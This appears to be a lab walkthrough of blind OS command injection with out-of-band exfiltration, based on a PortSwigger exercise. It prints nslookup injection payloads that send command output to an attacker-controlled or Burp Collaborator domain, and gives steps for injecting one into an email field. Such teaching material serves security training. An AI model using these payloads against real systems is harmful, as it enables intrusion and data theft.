



with out-of-band data exfiltration
The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:
& nslookup `whoami`.SUBDOMAIN.web-attacker.com &
This will cause a DNS lookup to the attacker's domain containing the result of the
whoami
command:
wwwuser
.kgji2ohoyw.web-attacker.com
Exercise:
1. Go to the Burp menu, and launch the Burp Collaborator client.
 Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
2. Intercept the Submit Request
3. Modify the
email parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
email=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
4. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload.
5. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. The full domain name that was looked up is shown in the Description tab for the interaction.
Bibliography:https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration